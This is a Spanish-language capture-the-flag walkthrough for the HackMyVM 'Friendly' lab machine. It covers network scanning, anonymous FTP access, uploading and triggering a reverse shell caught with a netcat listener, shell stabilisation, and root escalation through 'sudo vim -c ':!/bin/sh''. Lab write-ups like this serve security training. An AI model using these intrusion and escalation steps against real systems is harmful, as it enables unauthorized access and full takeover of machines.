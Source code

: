 # Maquina Friendly B)
![Imagen](https://github.com/Qu0kk4/Qu0kk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-02%20212326.png)

Realizamos un escaneo de red con arp-scan para ver las maquinas conectadas, luego le lanzamos un ping a la maquina que vamos a comprometer, segun el ttl nos damos cuenta si estamos ante una maquina linux si es ttl 64 o si es un ttl 128 es windows.
>arp-scan -i eth0 --localnet

![Imagen](https://github.com/Qu0kk4/Qu0kk4/blob/main/HackMyVm/image/1.png)

Con nmap utilizamos el siguiente el comando:
>nmap -p --open -A -T5 -O "IP" -oN nombre.txt

![Imagen](https://github.com/Qu0kk4/Qu0kk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-02%20203501.png)

Vemos que tenemos los puertos 21 "ftp y el 80 "http", lo siguiente es ingresar al servicio ftp ya que podemos loguearnos como anonimo.
Dentro del FTP encontramos un archivo llamado index.html, lo descargamos a nuestra maquina atacante.
>ftp "IP"

![Imagen](https://github.com/Qu0kk4/Qu0kk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-02%20203448.png)
Ahora vamos al navegador, colocamos la ip y vemos a donde nos redirige la pagina web.

![Imagen](https://github.com/Qu0kk4/Qu0kk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-02%20204450.png)

Como notamos que el index del ftp coincide con la pagina, lo que podes hacer es subir una RV (ReverShell) al FTP con el comando "PUT".

![Imagen](https://github.com/Qu0kk4/Qu0kk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-02%20204436.png)

Seguido a eso vamos a ponernos en escucha con netcat 
>nc -nlvp 1234

Luego volvemos a la pagina web y seguido de http://"ip"/ .............. <<<<<< colocamos el nombre de la RV y le damos ENTER.

![Imagen](https://github.com/Qu0kk4/Qu0kk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-02%20204534.png)

Listo ahora somos el usuarios www-data.

![Imagen](https://github.com/Qu0kk4/Qu0kk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-02%20204542.png)

Realizamos el tratamiendo de la tty para tener una shell estable.
>script /dev/null -c bash
>crtl Z
>stty raw -echo;fg
>+ continued  nc -nlvp 443
>                             reset
>reset: unknown terminal type unknow
>Terminal type? xterm
>export TERM=xterm
>export SHELL=bash

Buscamos la forma de escalar privilegios para eso utilizamos el comando "sudo -l" y vemos que hay un binario llamado "vim".

![Imagen](https://github.com/Qu0kk4/Qu0kk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-02%20204702.png)

Nos dirijimos a gtfobins para ver si aca podemos encontrar la forma de explotar el binario "vim". Genial! al parecer si agregamos el siguiente comando podemos acceder a root:
>sudo vim -c ':!/bin/sh'

![Imagen](https://github.com/Qu0kk4/Qu0kk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-02%20204859.png)

Y listo somos usuario root!

![Imagen](https://github.com/Qu0kk4/Qu0kk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-02%20204913.png)

